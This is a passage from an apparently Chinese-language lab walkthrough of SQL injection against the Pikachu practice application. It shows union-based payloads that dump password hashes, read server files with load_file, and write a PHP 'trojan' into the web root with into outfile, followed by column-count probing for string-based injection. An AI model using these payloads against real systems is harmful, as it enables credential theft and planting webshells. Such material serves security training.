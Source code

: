    ```
   hello,1 <br />
   your email is: admin : e10adc3949ba59abbe56e057f20f883e,pikachu : 670b14728ad9902aecba32e22fa4f6bd,test : e99a18c428cb38d5f260853678922e03
   ```

7. 读取文件：

   ```sql
   id=id=1000 union (select 1, load_file('D:/phpStudy/WWW/pikachu/vul/sqli/hack.php'))--+&submit=%E6%9F%A5%E8%AF%A2
   ```

   ```
   网页显示：hack.php文件内容
   ```

8. 植入木马程序：

   ```sql
   id=id=1000 union (select 1, "<?php echo php_uname();?>" into outfile 'D:/phpStudy/WWW/pikachu/vul/sqli/hack.php')--+&submit=%E6%9F%A5%E8%AF%A2
   ```

   ```
   访问木马程序：http://localhost/pikachu/vul/sqli/hack.php
   网页显示：1 Windows NT GL-20240817HAXG 6.2 build 9200 (Windows 8) i586
   ```

   

## 字符型注入（get）

1. 判断注入类型：

   ```
   发现是联合注入
   ```

2. 获取表中字段列数：

   ![013978A8](C:\Users\F1245363\AppData\Local\Temp\SGPicFaceTpBq\4560\013978A8.png)值得注意的是：如果使用 BurpSuite 来编辑 get 请求数据，记得将其中必须转换为 URL 编码的数据，提前转换成 URL 编码！！！当然，如果你使用浏览器插件 HackBar，则无需考虑这个问题！！！

   ```sql
   name=hack'+order+by+2--+&submit=%E6%9F%A5%E8%AF%A2 
   ```

   HackBar : 

   ```sql
   name=hack' order by 2--+&submit=%E6%9F%A5%E8%AF%A2
   ```

3. 爆数据、植入木马等操作同上述 "数字型注入"



## 搜索型注入

1. 判断注入类型：
